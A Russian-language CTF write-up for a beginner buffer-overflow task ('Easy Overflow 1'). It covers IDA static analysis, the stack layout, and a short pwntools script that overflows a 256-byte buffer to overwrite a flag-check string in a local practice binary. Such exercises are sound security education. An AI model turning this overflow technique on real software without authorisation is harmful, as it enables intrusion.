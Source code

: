 
# Сайт: forkbomb.ru
# Автор: @mrvos (Vlad Roskov) 
# Задание: Easy Overflow 1
# Сложность: Easy

Плавно подходим к четвертому заданию из серии MicCheck. В задании теперь не получится пропатчить память и сразу же получить флаг ибо мы должны отправлять свой ввод на удаленный сервер. Чтобы это сделать надо воспользоваться библеотекой, которая называется pwntools. 
Традиционно начинаем статически анализировать программу.

#### Статический анализ.

![image](https://github.com/user-attachments/assets/790fd5e8-767c-4a75-8aca-14f7551f1750)

В первом блоке программы заносим адрес строки `dword_4006A4` в переменную `giveflag`. По данному адресу лежит строка `No.` о чем нам любезно подсказывает IDA.

![image](https://github.com/user-attachments/assets/f681879a-c794-4192-beeb-fc25da34f2f0)

Ну и собственно сравнивается строка `giveflag` и `s2` с помощью функции `_strcmp` и прыгает в одну из двух веток: одна выводит "локальный флаг", а другая, что флаг нам не дадут. <br />
![image](https://github.com/user-attachments/assets/1803bb82-fdba-4db0-b016-92a71400d56a)
![image](https://github.com/user-attachments/assets/1477319a-d6b0-4d62-91e7-f1c27221065d)
![image](https://github.com/user-attachments/assets/2289ea6b-c081-42af-b2fb-97b714d7a4c9)

#### Решение

Приступим к решению задачи. У нас есть переменная `word` она занимает в памяти 256 байт и  `giveflag`, который занимает 4 байта. Данные локальные переменные кладутся в стэк.
+--------------+ 
|     ...      |
+--------------+
|     word     |
+--------------+
|  give_flag   |
+--------------+
|     RBP      |
+--------------+
|     RET      |
+--------------+

Получим информацию о бинарном файле с которым мы работаем:
```py
from pwn import *

p = ELF('./mc4_censored')
```

![image](https://github.com/user-attachments/assets/dd5d7fc8-a415-49a0-9e67-29d2ab92ef75)

Никаких защит не стоит, все замечательно, можно спокойно переполнять. Напишем следующий скрипт на языке python

```py
#!/usr/bin/env python3
from pwn import *


p = process('./mc4_censored')
pause()
p.sendline(b"A"*264 + b"Yesss!")
p.interactive()

```

